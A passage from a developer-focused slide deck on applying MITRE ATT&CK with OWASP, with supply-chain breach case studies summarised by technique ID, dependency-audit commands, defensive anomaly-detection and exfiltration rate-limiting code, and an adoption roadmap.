<!-- The XZ incident illustrates patient abuse of maintainer trust and release packaging. The actor spent years contributing and gaining influence; the release tarballs contained malicious build-stage material that ordinary source review did not expose. Andres Freund investigated unexpected SSH performance degradation and found the backdoor. RCE means remote code execution; CVSS, the Common Vulnerability Scoring System, rated CVE-2024-3094 at 10.0. The developer takeaway is to verify the built release, not just the source changes. -->

---

<!-- _class: compact-columns -->

## Case Study: Notepad++ Update Hijack (2025)

<div class="columns">
<div>

### 🖊️ The Hijacked Update Path
1. **Jun 2025**: Hosting infrastructure compromised
2. Targeted users served trojanized `update.exe`
3. Legitimate Bitdefender binary side-loaded malicious `log.dll`
4. Shellcode decrypted → **Chrysalis** backdoor installed
5. Cobalt Strike C2 established over HTTP

</div>
<div>

### 🎯 ATT&CK Techniques
- **T1195.002** — Update infrastructure hijacked
- **T1036** — Masquerading as legitimate updater
- **T1574.002** — DLL side-loading (`log.dll`)
- **T1140** — Shellcode deobfuscation/decryption
- **T1071.001** — C2 via HTTP/HTTPS
- 💡 Fix: v8.8.9 enforced **signature verification**

</div>
</div>

<!-- The source code was clean. The GitHub repo was clean. The problem was the update delivery channel — attacker-controlled infrastructure intercepted update traffic and served trojanized NSIS installers to selected targets. Public project disclosure put the compromise at the hosting/update-infrastructure level, not the source repository. Developer tools are privileged trust anchors: if your editor's updater is hijacked, the attacker inherits the trust of your normal daily workflow. The lesson: signed source does not mean safe delivery channel. -->

---

<!-- _class: compact-columns -->

## Case Study: Axios NPM Compromise (2026)

<div class="columns">
<div>

### 📦 The 3-Hour Window
1. **Mar 31**: Maintainer account compromised via Remote Access Trojan (RAT) malware
2. `axios@1.14.1` + `axios@0.30.4` published
3. Hidden dep: `plain-crypto-js@4.2.1`
4. `postinstall` downloads **cross-platform RAT**
5. Targets secrets: cloud keys, SSH, API tokens

</div>
<div>

### 🎯 ATT&CK Techniques
- **T1195.001** — Compromised npm package
- **T1078** — Hijacked maintainer credentials
- **T1059** — RAT via postinstall script
- **T1552** — Credential harvesting
- 🇰🇵 Attributed to **Sapphire Sleet** (DPRK)
- **Package reach:** 100M+ weekly downloads

</div>
</div>

<!-- The Axios case combines maintainer-account compromise with an install-time dependency. The hidden dependency's postinstall script downloaded a platform-specific RAT targeting secrets on Windows, macOS, and Linux. The three-hour window and affected versions matter when investigating exposure. The weekly-download figure describes package reach, not a confirmed victim count. RAT means remote access Trojan. The developer takeaway is to treat dependency installation as code execution under the build identity. -->

---

## Patching Is More Than Deploying

> "It's just one CVE."

| The ticket says | The application needs |
|---|---|
| Patch the dependency | Inventory affected services |
| Restart the service | Verify the critical workflows |
| Close the ticket | Check for prior compromise |

**ATT&CK lens:** T1190 — Exploit Public-Facing Application

<!-- Speaker note: The joke is that patching is not a button. For developers, the real work is asset inventory, safe rollout, compensating controls, and post-patch detection. -->
---

<!-- _class: code-focus -->

## Dependency Security Toolkit (T1195.001 Prevention)

```bash
# 1. Scan known vulnerabilities and application code
npm audit --audit-level high
pip-audit && bandit -r .
dotnet list package --vulnerable --include-transitive
```

```bash
# 2. Reproduce the reviewed dependency set
npm ci --omit=dev
pip install --require-hashes -r req.txt
dotnet restore --locked-mode
```

```bash
# 3. Inventory components and scan the SBOM
syft . -o spdx-json > sbom.json
npm sbom --sbom-format cyclonedx
grype sbom:./sbom.json
```

<!-- Three complementary checks, not a guarantee of safe dependencies. npm audit, pip-audit, and dotnet's vulnerable-package listing check known advisories; Bandit is static analysis of Python code. Lockfiles and hashes reproduce an approved dependency set but cannot make an already malicious approved version safe. npm ci --omit=dev is for a production-dependency installation; build and test jobs may need dev dependencies. Syft and npm provide alternative SBOM formats; the shown Grype command scans Syft's sbom.json. Add publisher and artifact provenance checks and tightly limit lifecycle-script permissions to address compromise as well as known vulnerabilities. -->

---

## From Supply-Chain Compromise to Data Theft


<!-- This diagram is an illustrative attacker path, not the defensive build pipeline. A compromised dependency can execute code, expose credentials, enable account abuse, and lead to exfiltration. The previous slide's dependency checks address the entry point; runtime identity and data-access controls address later steps. Ask where our earlier controls would interrupt this chain. The next section follows the data leaving the application. -->

---

# Collection & Exfiltration

<!-- Data theft is an objective in many attacks. Assume the attacker now has a usable identity and can reach the application. A valid request can still be abusive: which data, how many records, and how much outbound volume are normal for that user? -->

---

## How Attackers Steal Your Data

| Technique ID | Name | Description |
|--------------|------|-------------|
| T1213 | Data from Information Repositories | Bulk data access |
| T1567 | Exfiltration Over Web Service | Cloud storage uploads |
| T1020 | Automated Exfiltration | Scripted data theft |

<!-- T1213 is bulk data harvesting — think SELECT * FROM customers. T1567 uses legitimate cloud services like Dropbox or Google Drive to exfiltrate data, making it hard to distinguish from normal traffic. T1020 automates the process with scripts that systematically extract and transfer data. -->

---

<!-- _class: compact-columns -->

## Real World: The Exfiltration Playbook

<div class="columns">
<div>

### 🏥 Anthem Breach (2015)
- **T1213** — Queried 78.8M patient records
- **T1020** — Automated extraction over weeks
- **T1071** — Exfil disguised as normal HTTP
- 💥 Largest healthcare breach in US history

</div>
<div>

### 🔑 LastPass Breach (2022)
- **T1528** — Stole cloud storage access tokens
- **T1213** — Accessed encrypted vault backups
- **T1567** — Exfiltrated via cloud storage API
- 💥 25M+ users' vault data stolen
- 💡 Attacker targeted **a developer's home&nbsp;PC**

</div>
</div>

<!-- Exfiltration is often the quietest phase because attackers want to avoid detection. Anthem's attackers queried 78.8 million records over weeks, blending with normal database traffic. LastPass is especially relevant for developers — the attacker compromised a DevOps engineer's personal machine to steal cloud storage credentials, then used legitimate cloud APIs to download vault backups. The data was encrypted, but the attacker had the keys. Both cases show why anomaly detection on data access patterns is critical — you need to catch the unusual query before 78 million records walk out the door. -->

---

<!-- _class: code-focus -->

## Data Access Anomaly Detection

```python
def check_access_pattern(self, user_id, query, context):
    baseline = self.get_user_baseline(user_id)
    current = {"records_accessed": query.estimated_rows,
               "tables_accessed": len(query.tables)}
    score = self.calculate_anomaly_score(baseline, current)
    if score > 0.8:
        self.log_technique("T1213", {"user": user_id, "score": score})
        return self.require_step_up_auth(user_id)
    return True
```

**Normal baseline → allow. Score above 0.8 → log + step-up authentication.**

<!-- This method excerpt keeps the decision visible; baseline storage and scoring move to the explanation. The illustrative score compares record and table counts with per-user means and standard deviations, caps each normalized deviation at 1, and takes the maximum. A real scorer needs minimum baseline history and a nonzero variance floor. Sensitivity classification and login time can add context but were not part of the original two-metric score. Full events can include sanitized query metadata, never raw sensitive query values. Threshold 0.8 is illustrative, not a universal boundary. Require a successful step-up before releasing the result, and define how legitimate bulk exports are handled. -->

---

<!-- _class: code-focus -->

## API Rate Limiting with Exfil Detection

```javascript
async checkDataTransfer(userId, requestSize, responseSize) {
    const now = Date.now(), windowMs = 60 * 60 * 1000;
    const transfers = (this.tracking.get(userId) || [])
        .filter(t => now - t.timestamp < windowMs);
    transfers.push({ timestamp: now, responseSize });
    this.tracking.set(userId, transfers);
    const total = transfers.reduce((sum, t) => sum + t.responseSize, 0);
    if (total <= 100 * 1024 * 1024) return true;
    await this.logSecurityEvent("T1567", {
        userId, totalTransferred: total,
        requestCount: transfers.length, timeWindow: "1h"
    });
    return false;
}
```

<!-- This method excerpt preserves the rolling-hour calculation and event fields; the class constructor initializes this.tracking to a Map. The rule counts response bytes, not the unused requestSize argument, and includes the candidate response before deciding. Exactly 100 MiB is allowed; more than 100 MiB returns false and emits a T1567 event. The caller must enforce that decision before sending data. Ten 11 MiB responses exceed the example threshold even at a low request rate, illustrating T1020-style automation and T1567-related transfer monitoring. Production accounting needs shared, atomic storage, bounded history, and a policy for blocked attempts and legitimate bulk exports. -->

---

## Data Flow Monitoring



<!-- Multiple checkpoints in the data flow. Authorization happens first, then anomaly detection checks the pattern, then bulk transfer detection checks the volume, and finally rate limiting checks the frequency. Any checkpoint can block the request and alert the security team. Layered defense for data protection. -->

---

# Practical Implementation

<!-- Now apply the same questions in the development workflow: what can an attacker do to this feature, what can we observe, and what response should follow? Start with identity, sessions, and data access rather than trying to cover the entire matrix. -->

---

## ATT&CK-Informed Threat Modeling



<!-- This is your threat modeling loop. For every feature, ask: what ATT&CK techniques could target this? Then design detections, implement them, and test. The loop is continuous — as new techniques are added to ATT&CK, revisit your features. This is a shift from reactive patching to proactive defense design. -->

---

## Map Features to Techniques

| Application Feature | ATT&CK Techniques | Example Risk |
|---------------------|------------------|------------|
| User Login | T1078 Valid Accounts, T1110 Brute Force, T1566 Phishing | High |
| Password Reset | T1566 Phishing, T1078 Valid Accounts | High |
| Session Management | T1185 Browser Session Hijacking, T1098 Account Manipulation | High |
| File Upload | T1505.003 Web Shell, T1190 Exploit Public-Facing App | High |
| API Endpoints | T1087 Account Discovery, T1046 Network Scanning | Medium |
| Data Export | T1567 Exfil Over Web, T1020 Automated Exfil | High |
| Logging System | T1070 Indicator Removal, T1027 Obfuscation | Medium |
| Dependencies | T1195 Supply Chain, T1195.001 Compromise Dependencies | Medium |

<!-- This is a starting-point worksheet, not a universal risk ranking. User login maps to credential attacks, file upload to web shells, and data export to exfiltration. Adjust the candidate techniques and risk labels for your exposure, privileges, data sensitivity, and existing controls. Dependencies can be critical even though this illustrative table labels them Medium. -->

---

## Building Detection Into Code

### Key Patterns:

- **Behavioral Analytics**: Monitor user patterns vs baselines
- **Technique Logging**: Tag events with ATT&CK IDs for correlation
- **Adaptive Controls**: Risk-based authentication and authorization  
- **Honey Tokens**: Fake data/accounts to detect unauthorized access
- **Immutable Auditing**: Tamper-evident logging and monitoring

<!-- These are the five patterns we've seen throughout this talk. Behavioral analytics baseline normal behavior and flag anomalies. Technique logging uses ATT&CK IDs so your SIEM can correlate across systems. Adaptive controls increase security requirements when risk increases. Honey tokens are traps for attackers. Immutable auditing ensures your investigation data can't be tampered with. -->

---

## Detection Maturity: A Brief Evolution


**ATT&CK lens:** T1071 — Application Layer Protocol

<!-- The maturity curve moves from isolated log searches to alerts, correlated techniques, and behavioral context. These are complementary capabilities, not replacements for each other. Improve one useful signal and its response before adding more detection complexity. -->
---

## Defense in Depth Architecture


<!-- Defense in depth uses independent controls: input validation for T1190, authentication monitoring for T1110 and T1078, authorization to limit privilege, and data-access controls to reduce impact. Detection and response still matter when prevention fails. Each layer creates another opportunity to observe or interrupt the attack. -->

---

## OWASP + ATT&CK Integration


<!-- This is how OWASP and ATT&CK work together in practice. OWASP gives you secure coding practices, vulnerability testing, and security reviews. ATT&CK adds behavioral monitoring, technique correlation, and threat hunting. Together, you get: Secure by Design, Monitor by Behavior, and Respond by Intelligence. Your existing tools — SAST, SIEM, code reviews, pen tests — all have both an OWASP angle (find vulnerabilities) and an ATT&CK angle (detect technique patterns). Leverage what you already have. -->

---

## Implementation Roadmap

<div class="columns3">
<div>

### Phase 1: Foundation
- Map features to ATT&CK techniques
- Secure logging with technique IDs
- Basic behavioral analytics

</div>
<div>

### Phase 2: Detection
- Anomaly detection for high-risk techniques
- Automated response workflows
- Security Information and Event Management (SIEM) integration

</div>
<div>

### Phase 3: Advanced
- Honey tokens and deception
- Threat intelligence correlation
- Security dashboards

</div>
</div>

<!-- Don't try to boil the ocean. Phase 1 is mapping and logging — understand what you're defending and make sure you can see what's happening. Phase 2 adds active detection and automated response. Phase 3 adds advanced capabilities like deception and threat intelligence. Each phase builds on the last. -->

---

## When the Alert Is Real

```text
SIEM:  T1071 beacon pattern from build agent
App:   unusual token use from impossible travel
API:   30x normal export volume
Team:  correlate, triage, contain
```

| Step | Action |
|---|---|
| Triage | Confirm signal and scope blast radius |
| Contain | Revoke token, isolate runner, stop export |
| Preserve | Protect logs and capture evidence |
| Recover | Patch path, rotate secrets, write detection |

**ATT&CK lens:** T1071 — Application Layer Protocol


<!-- This is the response handoff: detection only matters if the team knows the first moves. The practical lesson is to predefine containment and evidence-preservation actions for high-risk ATT&CK-tagged alerts. -->
---

<!-- _class: compact-columns -->

## Team Adoption & Tooling

<div class="columns">
<div>

### Adoption Strategies
- **Training**: ATT&CK workshops for dev teams
- **Process**: Technique IDs in security requirements
- **Culture**: "Red team thinking" in design reviews
- **Metrics**: Track technique coverage rates
- **Collaboration**: Regular dev ↔ security syncs

</div>
<div>

### ATT&CK Navigator
- **Tool**: [attack-navigator](https://mitre-attack.github.io/attack-navigator/)
- Visualize technique coverage and gaps
- Color-code: 🟢 defended / 🟡 partial / 🔴 gap
- Communicate risk to stakeholders
- Plan security improvements

</div>
</div>

<!-- Security culture is as important as security code. Train your team on ATT&CK, include technique IDs in your Jira tickets, and encourage "red team thinking" in design reviews. The ATT&CK Navigator is a free tool for visualizing your coverage — a visual heat map of your security posture is worth a thousand bullet points. Ask: "If I were an attacker, how would I abuse this feature?" -->

---

## Start Small - Pick Your Top 3

### Recommendation for most applications:
1. **T1078 (Valid Accounts)** - Authentication monitoring
2. **T1185 (Session Hijacking)** - Session security  
3. **T1213 (Data Collection)** - Data access anomalies

### Why these first:
- **High impact** on most attack chains
- **Relatively easy** to implement
- **Immediate value** for detection
- **Foundation** for expanding coverage

<!-- Don't be overwhelmed by 200+ techniques. Start with these three: authentication monitoring catches credential abuse, session security prevents hijacking, and data access anomalies catch collection and exfiltration. These three techniques appear in almost every major breach. Master these, then expand. -->

---

<style scoped>
table { font-size: 0.78em; line-height: 1.2; }
blockquote { font-size: 0.9em; margin: 0.5em 0; }
p { margin: 0.35em 0; }
</style>

### How It Started vs How It's Going


| How it started 😎 | How it's going 😱 |
|---|---|
| `// TODO: add auth later` | `[CRITICAL] T1190 - SQLi in production` |
| `// TODO: rotate this API key` | `[CRITICAL] T1552 - API key on GitHub` |
| `// TODO: add rate limiting` | `[CRITICAL] T1110 - 50K login attempts/hr` |
| `// TODO: check dependencies` | `[CRITICAL] T1195 - Malicious dependency` |

> Every "TODO: fix later" is an attacker's "TODO: exploit now"

**ATT&CK lens:** T1190 — Exploit Public-Facing Application

<!-- Security TODOs can leave opportunities for attackers. Use ATT&CK to prioritize the ones relevant to your application's exposure and likely attack paths. This is a reminder to act on the three priorities from the previous slide, not an instruction to fix every possible technique at once. -->
---

## Key Takeaways

- ✅ **OWASP + ATT&CK = Better-Informed Defense** - Prevention + Detection
- ✅ **Think Like an Attacker** - Understand adversary behavior patterns
- ✅ **Build Detection Into Code** - Monitoring isn't just ops responsibility
- ✅ **Log ATT&CK Technique IDs** - Enable security team correlation
- ✅ **Use Behavioral Analytics** - Go beyond simple rule-based detection
- ✅ **Start Small, Iterate** - Pick 3 techniques and expand coverage

<!-- If you remember nothing else: OWASP and ATT&CK are complementary, not competing, and neither guarantees complete security. Identify likely attacker behavior, instrument the relevant signals, and define a response. Start with identity, sessions, and data access. Revisit the crooked-line visual: we do not need to predict every move to make that path harder and more observable. -->

---

# Questions?


[Slides & samples](https://github.com/codebytes/mitre-attack-for-devs)

<!-- Thank you! I'm happy to take questions. If we run out of time, catch me in the hallway or reach out on BlueSky or LinkedIn. -->

---

# Tell Me How I Did

- **What landed?**
- **Where should I go deeper?**
- **What should I trim?**

<!-- Your feedback shapes the next revision of this deck. Share what worked, what didn't, and where you'd like me to focus next time, either in person or through the contact links on the next slide. -->
---

<div class="columns">
<div>

## Links

- **[MITRE ATT&CK Framework](https://attack.mitre.org/)** - Main knowledge base
- **[ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)** - Technique matrix
- **[ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)** - Coverage visualization
- **[OWASP Developer Guide](https://owasp.org/www-project-developer-guide/)** - Secure development
- **[D3FEND](https://d3fend.mitre.org/)** - Defensive countermeasures

</div>
<div>

## Chris Ayers

<i class="fa-brands fa-bluesky"></i> BlueSky: [@chris-ayers.com](https://bsky.app/profile/chris-ayers.com)
<i class="fa-brands fa-linkedin"></i> LinkedIn: [chris\-l\-ayers](https://linkedin.com/in/chris-l-ayers/)
<i class="fa fa-window-maximize"></i> Blog: [https://chris-ayers\.com/](https://chris-ayers.com/)
<i class="fa-brands fa-github"></i> GitHub: [Codebytes](https://github.com/codebytes)
<i class="fa-brands fa-mastodon"></i> Mastodon: [@Chrisayers@hachyderm.io](https://hachyderm.io/@Chrisayers)

</div>
</div>

<!-- Here are resources to continue your journey. The ATT&CK framework site and Navigator are your primary tools. D3FEND is MITRE's companion project that maps defensive countermeasures to techniques. And please reach out — I love talking about this stuff. -->
